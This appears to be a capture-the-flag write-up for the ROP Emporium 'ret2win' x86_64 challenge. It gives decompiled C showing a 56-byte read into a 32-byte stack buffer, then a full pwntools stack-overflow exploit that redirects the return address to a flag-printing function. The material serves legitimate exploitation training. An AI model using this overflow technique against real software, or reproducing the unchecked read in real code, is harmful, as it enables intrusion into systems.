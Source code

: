 # Ret2win (x86_64)

## x86_64 architecture
### Calling convention
#### Arguments
`rdi`, `rsi`, `rdx`, `r10`, `r8`, `r9`, `stack`
#### Results
`rax`
More info: [here](https://uclibc.org/docs/psABI-x86_64.pdf)
### Frame structure
![framestructure](imgs/frame.png)

from [here](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/)

## Reversing with Ghidra
### Main
```c
int main() {
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### pwnme
```c
void pwnme() {
  char buf[32];
  
  memset(buf, 0, 0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
  printf("> ");
  read(0, buf, 0x38);
  puts("Thank you!");
  return;
}
```
### ret2win (target)
```c
void ret2win() {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

## The vuln
The `read` function reads `0x38` (`56`) bytes but the buffer is only `32` bytes long, this allows us to overflow the `buf` variable and write on the stack wherever we want (the `return address` in our case).

## The exploit
```py
from pwn import *

#
# Context
#

e = context.binary = ELF('ret2win')

#
# ROP
#

target = p64(0x00400756)

#
# Find Offset
#

io = process(e.path)
io.sendlineafter(b'> ', cyclic(0x38))
io.wait()

core = io.corefile
offset = cyclic_find(core.read(core.rsp, 4))

io.close()

info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * offset
payload += target

io = process(e.path)
io.sendlineafter(b'> ', payload)

info(io.recvall().decode())

io.close()
```